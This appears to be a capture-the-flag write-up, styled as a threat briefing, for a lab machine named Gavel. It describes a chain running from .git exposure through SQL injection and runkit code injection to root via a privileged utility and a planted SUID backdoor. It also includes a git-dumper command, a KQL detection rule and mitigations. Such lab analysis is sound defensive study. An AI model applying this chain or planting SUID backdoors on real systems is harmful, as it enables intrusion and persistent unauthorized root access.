XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```





# Gavel: Tactical Operations Briefing

## Strategic Overview

* **1.1 Definition:** A multi-stage compromise involving Source Code Disclosure, Logic-Based SQL Injection, and Dynamic Runtime Code Injection leading to Local Privilege Escalation.
* **1.2 Impact:** **Total Infrastructure Control**. The adversary transitions from unauthenticated web access to Root privileges by exploiting architectural flaws in the application's input handling and administrative automation utilities.
* **1.3 The Scenario:** An adversary discovers an exposed version control repository (`.git`), allowing for white-box analysis. They identify a non-standard SQL injection vector to harvest administrative credentials. Post-authentication, they exploit a PHP `runkit` implementation to execute code, finally leveraging a privileged backend utility (`gavel-util`) to overwrite system configurations and spawn a root shell.


## System Architecture & Theory

* **2.1 Protocol Environment:**
* **Presentation Layer:** Apache 2.4.52 / PHP (Virtual Host `gavel.htb`).
* **Data Layer:** MySQL (PDO Interface).
* **Management Layer:** SSH (OpenSSH 8.9p1), Custom PHP-CLI Utilities.


* **2.2 Attack Logic Flow:**
> [Public HTTP 80] -> [Git Repository Leak] -> [Source Code Audit] -> [SQL Injection (Backtick)] -> [Admin RCE (`runkit`)] -> [Local Shell] -> [YAML/SUID Abuse] -> [Root]


* **2.3 Theoretical Analogy:** The attacker finds the building's blueprints (`.git`) left in the lobby. Using this knowledge, they forge a key for the manager's office (SQLi). Once inside, they reprogram the automated building maintenance system (`gavel-util`) to remove all security locks (`php.ini`) and grant master access.


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                        |
| :---------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers** | Exposed `/.git/` directory, `inventory.php` parameters (`user_id`, `sort`), `runkit_function_add()` usage.                                                               |
| **Critical Weakness**   | **Information disclosure** (Git repository exposure), **SQL injection** due to improper parameter binding, and **code injection** via unsafe `runkit` implementation.    |
| **Offensive Technique** | Injection of crafted SQL subqueries to evade filtering, followed by delivery of attacker-controlled PHP payloads that are dynamically compiled and executed server-side. |


### Prerequisites

* **Access Level:** Public web access.
* **Connectivity:** TCP 80 (HTTP), TCP 22 (SSH).
* **Target State:** `runkit` extension enabled in PHP. `gavel-util` running with elevated privileges (SUID or sudo) processing user-controlled YAML.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries will initiate high-volume HTTP `GET` requests targeting `.git` objects (HEAD, config, objects/). Successful SQL injection will manifest as query strings containing SQL syntax (`UNION`, `SELECT`) combined with null bytes (`%00`) to truncate queries.
* **Behavioral Outliers:**
* **Web:** Requests to `inventory.php` with atypical characters (backticks, null bytes) in the `user_id` parameter.
* **System:** The `gavel-util` process (or PHP processes spawned by it) writing to `/opt/.config/php/php.ini` or creating files with SUID bits enabled (`chmod u+s`).


* **Toxic Combinations:** The availability of `git-dumper` tools combined with `runkit` functionality allows an attacker to perfectly craft payloads that match the internal logic, bypassing black-box WAF rules.


## Detection Engineering

* **Telemetry Gap Analysis:**
* **Web Logs:** Must capture full URI and Query Strings to detect the SQLi vector.
* **File Integrity Monitoring (FIM):** Critical for detecting changes to `php.ini` or the creation of unauthorized SUID binaries in `/opt/`.
* **Process Auditing:** Monitoring `runkit` function calls is difficult; focus on the *result* of the execution (e.g., `bash` spawning from `php`).


* **Detection-as-Code (KQL):**

```kql
// Detect Suspicious SUID Binary Creation
// Trigger: Critical Severity
SecurityEvent
| where EventID == 4663 or EventID == 4688 // File modification or Process Creation (Linux equiv)
| where ProcessName endswith "chmod"
| where CommandLine contains "u+s" or CommandLine contains "4755"
| where Account != "root" or ParentProcessName has "php" or ParentProcessName has "gavel-util"
| project TimeGenerated, Account, Computer, CommandLine, ParentProcessName

```

* **Resilience Test:**
* **Bypass:** The attacker could name the SUID binary something innocuous (e.g., `backup_tool`) or use `setfacl` instead of `chmod` if supported.
* **Sub-Rule Countermeasure:** Audit *all* executions of the `gavel-util` binary and correlate with file write events in the `/opt/` directory.


## Toolkit & Implementation

* **Automation:**
* `git-dumper`: Automating the reconstruction of the source code.
* `John the Ripper`: Offline cracking of the bcrypt hash.
* `Python (pty)`: Stabilizing the initial web shell.


* **OPSEC Analysis:**
* **Git Dump:** Extremely noisy. Generates thousands of requests (404s and 200s). Easily detectable by standard web server rules.
* **SQLi:** The specific payload (backticks + null byte) is highly anomalous and likely to trigger IDS/WAF signatures looking for SQL keywords.
* **PrivEsc:** The modification of `php.ini` is a persistent change that leaves a massive forensic footprint.


* **Post-Exploitation:** The attacker establishes a rogue SUID binary (`rootbash`). This is a "backdoor" persistence mechanism that remains even if the vulnerability is patched (unless the file is removed).


## Defensive Mitigation

* **Technical Hardening:**
* **Web Server:** Block access to `/.git` and `/.svn` directories globally via Apache/Nginx configuration.
* **Code Security:** Use PDO Prepared Statements *strictly*. Do not concatenate variables into queries, even column names (allow-list them instead).
* **Runtime:** Disable `runkit` and `eval()` functions in `php.ini`. Use `disable_functions` to block `system`, `exec`, `passthru`, etc.
* **Privileges:** Ensure `gavel-util` runs with the least privilege necessary, not Root.


* **Personnel Focus:**
* Developers must clean deployment artifacts (Git repos) from production servers.
* Code reviews must flag dynamic code execution functions (`runkit`, `eval`) as critical risks.


## Quick-Action Playbook

| Step | Objective                      | Technique / Command                                                            |
| :--: | :----------------------------- | :----------------------------------------------------------------------------- |
|   1  | **Source Code Recovery**       | **git-dumper [http://gavel.htb/.git/](http://gavel.htb/.git/) output_dir**     |
|      |                                | Recovered full application source via exposed Git repository.                  |
|   2  | **SQL Injection**              | **Parameter injection (`user_id`, `sort`)**                                    |
|      |                                | Exploited improper input handling to inject SQL fragments and bypass filters.  |
|   3  | **Privilege Escalation / RCE** | **gavel-util submit payload.yaml**                                             |
|      |                                | Achieved code execution via unsafe YAML processing and dynamic `runkit` usage. |


**Thanks you for read!**